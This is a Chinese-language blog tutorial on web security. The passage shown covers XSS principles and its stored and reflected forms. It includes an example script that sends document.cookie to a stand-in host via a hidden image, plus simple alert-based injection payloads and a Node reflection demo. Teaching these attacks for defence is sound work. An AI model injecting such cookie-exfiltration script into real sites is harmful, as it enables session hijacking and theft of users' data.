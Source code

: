 ```yaml
---
title: XSS、CSRF攻击问题详解
date: 2019-10-19 19:39:07
tags: [前端,WEB]
categories: 前端
keywords: [前端,CRSF,XSS,WEB]
description: 
---
```

一个好的网站，需要经得起Hacker的各种攻击，不久前在公司里给手上的项目做过一次安全性能的大升级，这次就专门来总结一下Web常见的一些安全攻击及其解决方法。



XSS（Cross Site Script）
--------------
### XSS原理
XSS 攻击是指攻击者在网站上注入恶意的客户端代码，通过恶意脚本对客户端网页进行篡改，从而在用户浏览网页时，对用户浏览器进行控制或者获取用户隐私数据的一种攻击方式。
攻击者对客户端网页注入的恶意脚本一般包括 JavaScript，有时也会包含 HTML 和 Flash。有很多种方式进行 XSS 攻击，但它们的共同点为：将一些隐私数据像 cookie、session 发送给攻击者，将受害者重定向到一个由攻击者控制的网站，在受害者的机器上进行一些恶意操作。

### 常见场景
#### 存储型
存储型 XSS 会把用户输入的数据 “存储” 在服务器端，当浏览器请求数据时，脚本从服务器上传回并执行。这种 XSS 攻击具有很强的稳定性。
##### input标签中注入script语句
攻击者在社区或论坛上写下一篇包含恶意 JavaScript 代码的文章或评论，文章或评论发表后，所有访问该文章或评论的用户，都会在他们的浏览器中执行这段恶意的 JavaScript 代码。
当然不能直接把用户的 cookie 直接 alert 出来，因为同源策略严格限制了 JavaScript 的跨域访问，但同源策略并不限制 `<img>` 这样的标签从别的网站（跨域）去下载图片，所以可以通过创建一个不可见的 `<img>`，通过这个 `<img>` 发cookie到自己的服务器。
```
var img=document.createElement("img");
img.src="http://web.com/log?"+escape(document.cookie);
document.body.appendChild(img);
```

##### URL内注入script语句
攻击直接将类似获取 cookie 等操作的语句通过 script 标签写在URL链接里，请求访问后台。
```
http://test.php?x=<script>alert('chenie')</script>
```

#### 反射型
反射型 XSS 只是简单地把用户输入的数据 “反射” 给浏览器，这种攻击方式往往需要攻击者诱使用户点击一个恶意链接，或者提交一个表单，或者进入一个恶意网站时，注入脚本进入被攻击者的网站。
```
<a href="localhost:8001/?q=111&p=222" >test</a>

const http = require('http');
function handleReequest(req, res) {
    res.setHeader('Access-Control-Allow-Origin', '*');
    res.writeHead(200, {'Content-Type': 'text/html; charset=UTF-8'});
    res.write('<script>alert("反射型 XSS 攻击")</script>');
    res.end();
}
 
const server = new http.Server();
server.listen(8001, '127.0.0.1');
server.on('request', handleReequest);
```
当用户点击恶意链接时，页面跳转到攻击者预先准备的页面，会发现在攻击者的页面执行了 js 脚本。
